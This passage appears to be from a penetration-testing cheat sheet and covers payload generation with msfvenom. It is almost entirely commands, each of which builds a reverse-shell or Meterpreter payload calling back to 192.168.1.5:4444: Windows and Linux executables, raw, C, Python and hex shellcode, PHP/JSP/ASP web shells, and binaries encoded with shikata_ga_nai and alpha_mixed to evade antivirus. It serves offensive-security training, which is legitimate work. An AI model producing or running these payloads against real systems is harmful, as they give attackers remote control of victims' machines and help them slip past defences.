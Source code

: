 ## Payload Generation and Customization

### **msfvenom Mastery for Payload Generation**

**What msfvenom does:** Payload generation tool that creates shellcode, executables, and various payload formats for different platforms and scenarios.

**Why msfvenom is essential:** Provides reliable, tested payloads for various platforms. Handles encoding, formatting, and platform-specific requirements automatically.

```bash
# Basic payload generation syntax
# msfvenom -p [payload] [options] -f [format] [output_options]

# Windows payload examples
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o shell.exe
# Basic Windows reverse shell executable

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o meterpreter.exe
# Windows Meterpreter executable

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o shell64.exe
# 64-bit Windows reverse shell

# Linux payload examples
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o shell
# Linux ELF executable

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f elf -o meterpreter
# Linux 64-bit Meterpreter

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f c
# C language format for buffer overflows

# Raw shellcode generation
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shellcode.bin
# Raw binary format

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f python
# Python format for scripts

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f hex
# Hexadecimal format

# Web application payloads
msfvenom -p php/reverse_php LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.php
# PHP web shell

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.jsp
# JSP web shell

msfvenom -p asp/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f raw -o shell.asp
# ASP web shell

# Encoding for evasion
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o encoded_shell.exe
# Shikata Ga Nai encoder with 3 iterations

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.5 LPORT=4444 -e x86/alpha_mixed -f exe -o alpha_shell.exe
# Alphanumeric encoder

# Bad character avoidance
```